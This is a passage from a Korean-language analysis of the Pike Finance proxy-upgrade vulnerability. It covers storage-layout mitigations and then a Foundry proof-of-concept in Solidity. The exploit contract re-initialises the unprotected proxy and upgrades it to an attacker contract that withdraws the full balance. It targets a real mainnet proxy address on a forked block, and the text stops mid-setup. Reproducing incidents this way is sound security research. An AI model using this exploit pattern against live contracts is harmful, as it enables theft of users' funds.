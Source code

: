 또한 permanent storage pattern을 이용하면 상태 변수가 덮어씌워질 걱정 없이 Logic Contract를 업그레이드할 수 있다. permanent storage pattern은 상태 변수를 별도의 Storage Contract에 저장하는 방식으로, Logic Contract는 이 Storage Contract를 참조하여 데이터를 읽고 쓴다. 이렇게 하면 Logic Contract를 업그레이드하더라도 상태 변수는 변경되지 않으며, 데이터의 일관성을 유지할 수 있다. 

이 외에도, namespaced storage layout을 활용할 수 있다. Namespaced storage layout은 각 컨트랙트가 고유의 네임스페이스를 사용하여 상태 변수를 저장하는 방식이다. 이를 통해 변수 간의 충돌을 방지하고, 각 컨트랙트의 상태 변수를 독립적으로 관리할 수 있다.

## 04. PoC를 통한 취약점 재현

foundry를 이용하여 PoC 코드를 작성할 수 있다.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.15;

import {Test} from "forge-std/Test.sol";
import {console} from "forge-std/console.sol";

interface IPikeFinance {
    function initialize(address,address,address,address,uint16,uint16) external;
    function upgradeToAndCall(address,bytes memory) external;
}

contract AttackContract {
    address target;
    address owner;

    constructor(address _owner, address _target) {
        owner = _owner;
        target = _target;
    }

    function attack() public {
        // 최기화 진행
        IPikeFinance(target).initialize(address(this), address(this), address(this), address(this), 20, 20);

        // Logic Contract 업그레이드, withdraw 함수 호출
        bytes memory data = abi.encodeWithSignature("withdraw(address)", address(owner));
        IPikeFinance(target).upgradeToAndCall(address(this), data);
    }
    
    // 모든 자금을 attacker에게 보내는 함수
    function withdraw(address addr) external {
        (bool success, ) = payable(addr).call{value: address(this).balance}("");
        require(success, "transfer failed");
    }

    // 업그레이드 가능한 프록시 계약임을 표시 (proxiableUUID 반환)
    function proxiableUUID() external pure returns(bytes32){
        return 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;
    }

    receive() external payable {}
}

contract Exploit is Test {
    uint256 blocknum = 19771058; // Attack Tx의 Blocknum보다 1 작게
    address constant PikeFinanceProxy = 0xFC7599cfFea9De127a9f9C748CCb451a34d2F063;

    address hacker;
    AttackContract attackcontractInstance;

    function setUp() public {
```